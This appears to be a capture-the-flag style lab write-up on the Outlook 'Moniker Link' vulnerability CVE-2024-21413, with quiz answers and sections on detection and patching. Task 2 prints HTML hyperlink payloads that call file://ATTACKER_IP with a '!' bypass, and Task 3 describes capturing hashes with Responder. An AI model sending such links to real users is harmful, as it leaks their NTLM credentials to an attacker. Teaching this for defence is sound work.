 # Moniker Link (CVE-2024-21413)

## [Task 1] Introduction

This room is used to serve as an introduction to exploitation; what better way to get introduced to exploiting things than by exploiting a vulnerability yourself?

On February 13, 2024, Microsoft announced a remote code execution (RCE) and credential leak vulnerability in Outlook and assigned it as CVE-2024-21413, colloquially known as "Moniker Link." This is courtesy of Haifei Li of CHeck Point Research.

This bypasses Outlook's security mechanisms since it doesn't know how to handle Moniker Links very well. Attackers can abuse this by sending malicious Moniker Links to a victim, resulting in Outlook sending off the user's NTLM credentials to the attacker once the hyperlink is clicked.

According to Microsoft, here's what we know about the vulnerability:
- It was published on 2/13/2024.
- It allows for RCE and credential leaking.
- It is a Critical vulnerability.
- It has an attack complexity of Low, meaning that it's not too difficult to perform.
- It has been scored a 9.8 on the Common Vulnerability Scoring System, indicating it is a critical vulnerability.
- It affects Microsoft Office LTSC 2021 (19.0.0 and onward), Microsoft 365 Apps for Enterprise and Office 2019 (16.0.1 and onward), and Microsoft Office 2016 (16.0.0 to 16.0.5435.1001).

You can follow along by launching the attached VM and the AttackBox.

**[Task 1, Question 1] What "Severity" rating has the CVE been assigned?** - Critical

## [Task 2] Moniker Link (CVE-2024-21413)

Outlook renders emails as HTML, and Outlook can parse hyperlinks as HTTP or HTTPS. It can also open URLs specifying applications known as Moniker Links (e.g. `skype:` and `file://`). Outlook prompts for a security warning whenever the application is triggered to open. This is a result of Outlook's "Protected View," which opens emails containing attachments, hyperlinks, and similar content in read-only mode. This blocks macros, particularly those from outside an organization.

We can use the `file://` Moniker Link in the hyperlink to tell Outlook to try and access a file, such as a file on a network share (e.g. `<a href="file://(ATTACKER_IP)/test>Click Me</a>`). This uses the Server Message Block (SMB) protocol, which uses local credentials for authentication. However, Outlook typically blocks this.

We can modify the hyperlink with `!` to get around this, e.g. `<a href="file://ATTACKER_IP/test!exploit>Click Me</a>`. We can provide a Moniker Link for the attack. The share does not need to exist on the remote device; an authentication attempt happens regardless, which results in the victim's Windows netNTLMv2 hash being sent off to the attacker.

RCE is possible because Moniker Links use the Component Object Model (COM) on Windows, but this aspect is outside the scope of the room. There's no publicly-released proof of concept (as of the time of the room's writing) for achieving RCE in this vulnerability.

**[Task 2, Question 1] What Moniker Link type do we use in the hyperlink?** - `file://`

**[Task 2, Question 2] WHat is the special character used to bypass Outlook's "Protected View"?** - `!`

## [Task 3] Exploitation

In this task we will email the Moniker Link to the victim. The victim will attempt to load a file from our machine, and thus their hash will get captured. A PoC is available on GitHub for this.

This proof-of-concept
- Takes an attacker and victim email. You'd need to use your own SMTP server, but this is already set up in the room.
- You need the password to authenticate. The password for `attacker@monikerlink.thm` is `attacker`.
- You need the email content (`html_content`), which contains the Moniker Link as an HTML hyperlink.
- Then you fill in the subject/from/to fields in the email.
- Then we send the email to the mail server.

We can use Responder to create an SMB listener on the attacking machine. From the AttackBox, you would use the interface `-I ens5` (this will differ if you're on a separate machine). You can also do this with Impacket.

We start by opening the CVE-2024-21413 machine. THen we open Outlook by clicking the shortcut on the Desktop, and then click "I don't want to sign in or create an account" on the popup. We dismiss the second popup by clicking the "X" at the top-right of the popup, and then we see the Outlook interface. The victim mailbox has already been setup.

Once Outlook is set up, we can copy and paste the contents of the PoC into the AttackBox. We create a file with `nano exploit.py`, and then paste the code in. You may need to use the slide-out tray in the split-screen view, in the middle of the screen. See GIFs in the room for more details.

We need to modify the POC:
- Modify line #12 in the POC to reflect the IP address of the AttackBox
- Replace the MAILSERVER placeholder in line #31 with the machine's IP.

Then run the exploit. Enter `attacker` as the email password, and then the script will attempt to send the exploit email. If authentication fails, you may need to adjust values in `exploit.py`. In the vulnerable machine, you should have gotten an email with the poisoned link. Clicking the hyperlink in the email should send the netNTLMv2 hash over to Responder in the AttackBox.

**[Task 3, Question 1] What is the name of the application that we use on the AttackBox to capture the user's hash?** - Responder

**[Task 3, Question 2] What type of hash is captured once the hyperlink in the email has been clicked?** - netNTLMv2

## [Task 4] Detection

To detect this, you should be focusing on emails that contain the `file:\\` Moniker Link. This can be done with a Yara rule, and you should be able to see the SMB request from the victim to the attacker in Wireshark packet captures. You should even be able to see the truncated netNTLMv2 hash!

## [Task 5] Remediation

Microsoft has patches to resolve this vulnerability back in the February 2024 Patch Tuesday release. You should update Office products via Windows Update or the Microsoft Update Catalog online. Additionally, users should be reminded of the following good security practices regarding email:
- Don't click random links from unsolicited emails
- Preview links before clicking them
- Forward suspicious emails to the organization's cybersecurity department

You cannot reconfigure Outlook to prevent this attack, and prohibiting the use of the SMB protocol in its entirety can cause damage, since that's how you access network shares in general. Depending on the organization, however, you might be able to work something out in the firewall.

## [Task 6] Conclusion

This is an interesting little vulnerability to whet one's appetite for the upcoming exploitation section. This is a vulnerability that can be used to do some serious damage, and the fact that it is easy to exploit and can be exploited against a wide suite of products just makes it that more interesting as a case study. Not only that, but it serves as a reminder to keep products up-to-date -- in fact, that's really about all you can do here, since Outlook can't be reconfigured to prevent this attack without just updating it.
